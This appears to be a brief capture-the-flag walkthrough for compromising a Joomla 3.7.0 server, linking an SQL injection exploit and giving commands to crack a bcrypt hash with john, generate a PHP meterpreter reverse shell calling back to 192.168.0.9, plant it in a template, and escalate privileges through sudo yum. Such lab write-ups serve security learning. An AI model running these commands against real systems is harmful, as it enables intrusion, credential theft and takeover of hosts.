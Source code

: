 # Joomla 3.7.0 exploitation:
Use below script to exploit https://www.exploit-db.com/exploits/42033
https://github.com/stefanlucas/Exploit-Joomla/blob/master/joomblah.py

Once we get the user hash, use john to crack the hash:
```sh
john hash.txt --wordlist=/usr/share/wordlist/rockyou.txt --format=bcrypt
```

# Php Reverse Shell
Now login to /administrator and edit beez3 template index.php and add payload generated using below command.

```sh
msfvenom -p php/meterpreter/reverse_tcp lhost =192.168.0.9 lport=1234 R
```

After getting the reverse shell, Looking around for a bit we can see that there is a configuration.php file in the /var/www/html directory. After taking a look 
at the contents we see mysql db credentials. Which is same as login password.

Now if we run ```sudo -l```, we see below output:
```
User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```

Which means the user can run yum with sudo and if we look for yum at gtfobins we found below:
https://gtfobins.github.io/gtfobins/yum/

WHich can be used to get privilege escalation.
